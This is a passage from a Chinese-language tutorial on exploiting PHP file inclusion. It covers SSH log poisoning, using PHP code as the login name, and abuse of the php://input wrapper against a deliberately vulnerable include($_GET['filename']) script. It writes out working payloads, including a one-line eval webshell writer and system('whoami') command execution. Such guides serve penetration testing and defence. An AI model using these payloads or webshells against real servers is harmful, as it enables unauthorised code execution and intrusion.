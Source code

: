 PHP代码会写入/var/log/apache2/access.log，再通过进行包含即可。
#### SSH log

利用条件：需要知道ssh-log的位置，且可读。

默认情况下，ssh-log的位置为/var/log/auth.log

用法：
1. 通过SSH连接，例如：ssh '<?php phpinfo(); ?>'@192.168.1.129
   
    然后提示输入用户名和密码，可以随便输入。

2. 这时 PHP代码已经被写入ssh-log，再进行文件包含即可。


## PHP伪协议
下面所有运用的示例代码均为：
    
    <?php
	    $filename = $_GET['filename'];
	    include ($filename);
    ?>
个别不同的实例会贴出其示例代码。
### php://input

可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。

#### 基础运用
利用条件：
allow_url_fopen = On

用法：
www.xxx.com/index.php?filename=php://input
同时需要进行post data。

例如post data可以为
    
    <? phpinfo();?>

#### 写入木马
利用条件：
allow_url_fopen = On
&& allow_url_include = On

用法：
www.xxx.com/index.php?filename=php://input

和基础用法一致，不够POST的代码为一句话木马：

`<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>`

#### 命令执行
利用条件和用法和写入木马相似，不过POST数据有相应变化，例如：

`<?php system('whoami'); ?>`

### php://filter
元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。
